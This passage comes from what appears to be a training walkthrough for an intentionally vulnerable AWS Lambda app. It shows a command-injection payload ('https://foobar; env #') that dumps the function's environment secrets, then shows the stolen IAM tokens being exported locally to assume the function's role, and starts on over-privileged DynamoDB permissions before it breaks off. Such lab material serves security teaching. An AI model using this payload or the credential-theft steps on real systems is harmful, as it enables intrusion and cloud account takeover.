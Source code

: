 ### Lesson 3: Digging For Gold Inside Environment Variables ###
In a well secured AWS Lambda environment, users should not be able to gain access to environment variables, as these variables include sensitive information. **IMPORTANT:** It is bad practice to store sensitive information in an unencrypted manner inside environment variables.

Let's grab the data from the environment variables by running the `env` command - in the URL field of the form, type: `https://foobar; env #`

{Partial Values}
```
AWS_SESSION_TOKEN=XXXXXXXXXXXXX
TABLE_NAME={dynamo_table_name}
AWS_SECRET_ACCESS_KEY=XXXXXXXXXXXXX
BUCKET_NAME={bucket_name}
AWS_ACCESS_KEY_ID=XXXXXXXXXXXXX
```
First, by grabbing the 3 IAM tokens - `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY` and `AWS_ACCESS_KEY_ID`, we can now assume the function's temporary execution role. For those of you who aren't familiar with the AWS IAM security model, this is an extremely granular and powerful security permissions model. Here's an excerpt from the AWS documentation on IAM roles:

```An IAM role is similar to a user, in that it is an AWS identity with permission policies that determine what the identity can and cannot do in AWS. However, instead of being uniquely associated with one person, a role is intended to be assumable by anyone who needs it. Also, a role does not have standard long-term credentials (password or access keys) associated with it. Instead, if a user assumes a role, temporary security credentials are created dynamically and provided to the user. You can use roles to delegate access to users, applications, or services that don't normally have access to your AWS resources.```

More information on AWS IAM and AWS Lambda can be found in the AWS [documentation](https://docs.aws.amazon.com/lambda/latest/dg/access-control-identity-based.html).

#### Assuming the Lambda Function's Role, In the Convenience of Your Own Terminal ####
Now, given that we have the tokens generated for the function by the AWS STS service, we can use the tokens to invoke AWS CLI commands from our local machine. In order to do that, get the values, and set these environment variables locally by running in a shell terminal:

```
export AWS_SECRET_ACCESS_KEY = "..."
export AWS_ACCESS_KEY_ID = "..."
export AWS_SESSION_TOKEN = "..."
```

Next, you can verify that you are indeed using the function's role, locally, by running: `aws sts get-caller-identity`.

This should return the following:
```
{
    "UserId": "xxxxxxxxx",
    "Account": "xxxxxxxxxx",
    "Arn": "arn:aws:sts::xxxxxxxxxxxx:assumed-role/aws-serverless-repository-serv-FunctionConvertRole-xxxxxxxx/aws-serverless-repository-serverle-FunctionConvert-xxxxxxxxxx"
}
```
It's clear that we are now running under the assumed role of the function. We will get back to using the AWS CLI later on.

### Lesson 4: Exploiting Over-Privileged IAM Roles ###
As can be seen in the code, the developer is inserting the client's IP address and the document URL value into the DynamoDB table, by using the `put()` method of `AWS.DynamoDB.DocumentClient`. In a secure system, the permissions granted to the function should be least-privileged and minimal, i.e. only `dynamodb:PutItem`. However, when the developer chose the CRUD DynamoDB policy provided by AWS SAM, he/she granted the function with the following permissions:
```
- dynamodb:GetItem
- dynamodb:DeleteItem
- dynamodb:PutItem
- dynamodb:Scan
- dynamodb:Query
- dynamodb:UpdateItem